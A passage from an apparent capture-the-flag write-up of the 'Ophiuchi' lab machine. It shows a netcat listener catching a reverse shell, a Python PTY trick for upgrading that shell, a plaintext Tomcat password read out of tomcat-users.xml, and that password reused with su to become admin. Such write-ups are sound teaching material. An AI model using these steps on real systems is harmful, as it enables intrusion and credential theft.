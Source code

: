 
I’ll upgrade my shell with the standard Python trick:

    tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    tomcat@ophiuchi:/$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@ophiuchi:/$ 
    

## Shell as admin

There’s one real user on the box, admin, and their home directory has , but I can’t read it as tomcat:`user.txt`

    tomcat@ophiuchi:/home/admin$ ls -la
    total 32
    drwxr-xr-x 4 admin admin 4096 Jan  7 09:18 .
    drwxr-xr-x 3 root  root  4096 Dec 28 00:18 ..
    lrwxrwxrwx 1 root  root     9 Dec 28 00:51 .bash_history -> /dev/null
    -rw-r--r-- 1 admin admin  220 Dec 28 00:18 .bash_logout
    -rw-r--r-- 1 admin admin 3771 Dec 28 00:18 .bashrc
    drwx------ 2 admin admin 4096 Dec 28 00:35 .cache
    drwx------ 4 admin admin 4096 Jan  6 08:31 .gnupg
    -rw-r--r-- 1 admin admin  807 Dec 28 00:18 .profile
    -rw-r--r-- 1 admin admin    0 Jan  7 09:18 .sudo_as_admin_successful
    -r-------- 1 admin admin   33 Oct 14 19:56 user.txt
    lrwxrwxrwx 1 root  root     9 Jan  7 09:11 .viminfo -> /dev/null
    

As the tomcat user, the current home directory is :`/opt/tomcat`

    tomcat@ophiuchi:~$ pwd
    /opt/tomcat
    

`/opt/tomcat/conf/tomcat-users.xml` has the username and password for Tomcat:

    <?xml version="1.0" encoding="UTF-8"?>
    ...[snip]...
    <tomcat-users xmlns="http://tomcat.apache.org/xml"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
            version="1.0">
    <user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
    ...[snip]...
    

The username here matches the username from the host. I’ll see if the password is reused. It is:

    tomcat@ophiuchi:~$ su admin -
    Password: 
    admin@ophiuchi:/opt/tomcat$
    